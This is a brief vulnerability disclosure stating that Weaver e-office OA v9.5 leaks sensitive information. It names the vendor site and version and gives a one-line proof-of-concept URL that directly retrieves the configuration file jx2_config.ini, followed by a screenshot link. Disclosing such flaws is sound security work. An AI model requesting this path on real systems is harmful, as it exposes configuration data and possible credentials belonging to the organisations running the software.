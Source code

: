Sensitive information has been leaked in Weaver OA v9.5

official website:https://www.e-office.cn/

version:v9.5

POC
```
http://url/building/backmgr/urlpage/mobileurl/configfile/jx2_config.ini
```

![3](https://user-images.githubusercontent.com/93461203/236828425-ff939678-5fa7-4e11-b9fe-e17d9b197ad3.png)
